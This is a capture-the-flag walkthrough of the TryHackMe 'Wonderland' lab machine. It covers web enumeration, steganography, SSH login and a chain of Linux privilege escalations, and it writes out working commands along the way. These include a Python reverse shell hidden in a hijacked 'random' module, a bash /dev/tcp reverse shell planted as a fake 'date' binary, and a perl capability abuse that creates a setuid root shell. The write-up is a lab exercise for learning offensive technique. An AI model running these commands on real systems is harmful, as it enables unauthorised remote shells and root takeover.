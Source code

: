 ```yaml
---
title: wonderland
categories: [CTF, THM]
tags: [http, ssh, steganography, linux_privesc, reverse_engineering]
date: 2024-03-06 08:00 +0700
---
```


## nmap
- after nmap scan, port 22 and 80 are open

## feroxbuster
- `feroxbuster -u http://$IPTA:80 -t 30 -w /usr/share/dirb/wordlists/common.txt -x txt,html,sql,csv,png,jpg,jpeg,php,js,md,sh,py,css,cgi,xml,aspx,zip,tar,tar.gz,bak dir -o "ferox_$IPTA"_common_all.txt` 
![](/assets/img/img_thm_ctf_wonderland_7.png)

## manual web enumeration / steganography
![](/assets/img/img_thm_ctf_wonderland_6.png)
- `wget http://10.10.104.129/img/white_rabbit_1.jpg; ./stegoBF.sh white_rabbit_1.jpg`
	- or `stegseek white_rabbit_1.jpg -q -c`
- `cat *.out*`
- we can extract several strings in them, all saying "follow the r a b b i t"
![](/assets/img/img_thm_ctf_wonderland_5.png)
- feroxbuster got /r, with the message keep going on the page
![](/assets/img/img_thm_ctf_wonderland_8.png)
- given the message in the image and on the web page, we need to continue the letters until r/a/b/b/i/t 
- and indeed in the source code of the page, we get the SSH credentials of alice 
![](/assets/img/img_thm_ctf_wonderland_9.png)
- `ssh alice@$IPTA`

# linux privesc
## python script with import -> rabbit
- `sudo -l; head /home/alice/walrus_and_the_carpenter.py` we can execute a python script as rabbit, and this script import the 'random' module. We can create our own module file, which will be loaded in priority
![](/assets/img/img_thm_ctf_wonderland_10.png)
- `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.64.57",56766));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > random.py` let's write a reverse shell code in the random.py file
- US2: `nc -lvnp 56766`
- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
![](/assets/img/img_thm_ctf_wonderland_11.png)
- we have a rabbit shell, let's stabilize it with python

## reverse engineering -> hatter
- `file teaParty` we have a binary file, let's download it to analyse it
- TA:`python3 -m http.server`
- US:`wget $IPTA:8000/teaParty`
- `ltrace ./teaParty` the script will allow us to get a hatter shell
![](/assets/img/img_thm_ctf_wonderland_2.png)
- first I thought of a buffer overflow, but reverse engineering it with ghidra, we can see that the Segmentation fault message is hardcoded. What we see here is that date binary is called with a relative path! And since it's a SUID script, we can modify our path to execute our own date binary, as hatter user
![](/assets/img/img_thm_ctf_wonderland_3.png)
- `echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.64.57/56767 0>&1"' > date; chmod +x date` this one!
- US3:`nc -lvnp 56767`
- `PATH=.:$PATH ./teaParty`
![](/assets/img/img_thm_ctf_wonderland_12.png)
- notice how the script is stopped when the date binary start our reverse shell

## perl with extra capabilities -> root
- stabilize the shell with bash this time
- `cat /home/hatter/password.txt`
- `su hatter` we needed this password, otherwise we're not fully logged as hatter since we used a SUID script
- `getcap -r / 2>/dev/null` search for files that have capabilities (or use linpeas)
- `perl -v` https://gtfobins.github.io/gtfobins/perl/#capabilities we can execute perl, it has extra capabilities set, we can use it to get a root shell
- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash";'` 
- `/tmp/rootbash -p`
- `find / \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null | while read -r flagfile; do echo -e "\n$flagfile"; cat $flagfile; done`
![](/assets/img/img_thm_ctf_wonderland_13.png)
